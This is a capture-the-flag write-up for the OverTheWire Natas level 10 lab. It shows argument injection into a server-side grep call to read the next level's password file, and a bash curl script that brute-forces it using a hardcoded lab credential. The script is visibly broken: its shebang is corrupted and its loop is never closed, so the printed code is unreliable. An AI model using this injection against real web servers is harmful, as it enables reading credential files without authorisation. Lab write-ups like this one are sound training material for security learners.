 ![natas10](/images/overthewire_natas/natas10_00.png)

In PHP code the grep command is invoked in this form:

```
grep [OPTIONS] PATTERN [FILE]
```

We already know that we control the `key` variable, we can use it to pass `PATTERN` and `FILE` parameter to `grep`. By brute forcing PATTERN parameter (looking for existent character in the password) and passing `/etc/natas_webpass/natas11` as FILE parameter we can obtain natas11's password.   

![natas10](/images/overthewire_natas/natas10.png)

We can do much better, let's append our injection with `%23` which is the url encoded value of `#`. In bash `#` is used for comments, so by inserting `#` at the end of the command we ignore `dictionary.txt` Hence, we got a clean output which make it easy for us to create a script to brute force.

```
#!/bin§bash

AUTH="Authorization: Basic bmF0YXMxMDpuT3BwMWlnUUFrVXphSTFHVVVqem4xYkZWajd4Q056dQ=="

for fuzz in {a..z}
do
	content=`curl -s "http://natas10.natas.labs.overthewire.org/?needle=$fuzz%20/etc/natas_webpass/natas11%20%23&submit=Search" -H "$AUTH"`
	password=$(echo "$content" | grep -A1 '<pre>' | tr -d '\n,<pre>,</pre>' )
	if [ ! -z $password ] && [[ "$password" =~ [a-zA-Z0-9]+ ]]
	then
		echo password found: $password
		exit 0
	fi
```
